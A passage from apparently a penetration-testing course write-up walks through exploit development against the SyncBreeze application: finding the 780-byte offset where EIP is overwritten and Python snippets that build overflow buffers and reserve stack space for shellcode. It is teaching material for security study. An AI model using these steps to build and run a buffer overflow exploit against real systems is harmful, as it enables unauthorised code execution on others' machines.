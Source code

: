 To find the offset where the EIP overwrite happens, we can use `-l` to specify the length of our original string and `-q` to specify the bytes we found in EIP

![](./img/Chapter11/9.png)

These bytes are located at offset 780. Let’s translate this to a new modified buffer string

```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 16

inputBuffer = filler + eip + buffer
```

The script: [eip_offset.py](./Scripts/Chapter11/eip_offset.py)

Run the script, and the debugger will break at the point where the EIP is overwritten with the value 0x42424242, the hexadecimal representation of the four characters "BBBB"

![](./img/Chapter11/10.png)

We now have complete control over EIP and we should be able to effectively control the execution flow of SyncBreeze

### **2.4 Locating Space for Our Shellcode**

Shellcode is a collection of assembly instructions that, when executed, perform a desired action of the attacker

Closer inspection of the stack at crash time, the ESP register is 0x0078744C

The shellcode offen requires a large amount of space. Therefore, we can update our script to contain 1500 bytes input buffer

```python
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

inputBuffer = filler + eip + offset + buffer
```
